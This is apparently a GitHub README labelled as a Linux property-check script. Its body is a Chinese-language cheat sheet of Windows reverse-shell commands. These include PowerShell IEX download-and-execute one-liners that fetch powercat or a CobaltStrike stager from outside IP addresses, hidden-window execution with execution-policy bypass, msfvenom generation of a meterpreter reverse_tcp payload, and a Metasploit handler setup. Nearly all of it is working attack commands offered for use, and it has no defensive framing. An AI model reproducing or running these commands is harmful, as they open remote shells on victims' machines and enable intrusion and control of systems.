 # CheckLinux
linux的基本属性脚本
———————————————————————————————————————————————————————————————
# cmd窗口下利用Powershell反弹NC shell 
亲测所有机器都适用
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/master/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
# cmd窗口下利用Powershell反弹CobaltStrike shell
windows10 经常性不能用。windows 2008R2以下百分百适用。
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"  
# cmd窗口下反弹MSF shell

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
# MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
# 目标机的操作

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps'

